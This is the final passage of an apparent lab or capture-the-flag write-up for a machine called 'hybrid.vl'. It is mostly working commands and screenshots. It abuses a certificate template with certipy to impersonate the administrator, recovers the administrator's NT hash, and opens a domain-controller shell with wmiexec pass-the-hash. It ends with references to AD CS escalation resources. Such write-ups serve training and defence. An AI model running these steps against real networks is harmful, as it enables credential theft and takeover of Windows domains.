 <img src="https://i.imgur.com/A3AUwkq.png"/>

Specifying the size of the public key file and requesting the certificate to authenticate as administrator

```bash
certipy req -u 'MAIL01$' -hashes ":0f916c5246fdbc7ba95dcef4126d57bd" -dc-ip "10.10.228.165" -ca 'hybrid-DC01-CA' -template 'HYBRIDCOMPUTERS' -upn 'administrator' -target 'dc01.hybrid.vl' -key-size 4096
```

<img src="https://i.imgur.com/5YhgdZl.png"/>

Now again with `certipy` we can request administrator's NTHash

```bash
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.228.165
```

<img src="https://i.imgur.com/5tZOxmC.png"/>

We can get a shell through `wmiexec`

```bash
wmiexec.py administrator@10.10.228.165 -hashes ':60701e8543c9f6db1a2af3217386d3dc'
```

<img src="https://i.imgur.com/ROMPjGs.png"/>


## References

- https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/
- https://github.com/ly4k/Certipy/blob/main/customqueries.json
- https://github.com/sosdave/KeyTabExtract
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
- https://www.thehacker.recipes/ad/movement/ad-cs/ca-configuration

